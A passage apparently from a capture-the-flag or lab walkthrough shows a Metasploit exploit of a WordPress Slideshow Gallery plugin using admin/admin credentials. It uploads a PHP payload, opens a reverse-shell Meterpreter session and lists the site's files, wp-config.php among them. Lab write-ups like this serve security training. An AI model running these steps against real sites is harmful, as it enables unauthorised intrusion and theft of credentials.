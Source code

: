 ```
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_USER admin
WP_USER => admin
msf exploit(unix/webapp/wp_slideshowgallery_upload) > set WP_PASSWORD admin
WP_PASSWORD => admin
msf exploit(unix/webapp/wp_slideshowgallery_upload) > exploit

[*] Started reverse TCP handler on 172.16.136.129:4444 
[*] Trying to login as admin
[*] Trying to upload payload
[*] Uploading payload
[*] Calling uploaded file ujlhyaek.php
[*] Sending stage (37775 bytes) to 172.16.136.130
[*] Meterpreter session 1 opened (172.16.136.129:4444 -> 172.16.136.130:41656) at 2018-05-08 09:00:41 -0400
[+] Deleted ujlhyaek.php

meterpreter > 
```

...and we are in! We have an open session to the vulnerable machine.

First, let's open a shell and check the current situation:

```
meterpreter > shell
Process 15882 created.
Channel 0 created.
whoami
www-data
pwd
/var/www/html/weblog/wp-content/uploads/slideshow-gallery
```

We are connected as the web server, which means that we have access to the Wordpression installation files

```
cd /var/www/html/weblog
ls
index.php
license.txt
readme.html
wp-activate.php
wp-admin
wp-blog-header.php
wp-comments-post.php
wp-config-sample.php
wp-config.php
wp-content
wp-cron.php
wp-includes
wp-links-opml.php
wp-load.php
wp-login.php
wp-mail.php
wp-settings.php
wp-signup.php
wp-trackback.php
xmlrpc.php
```
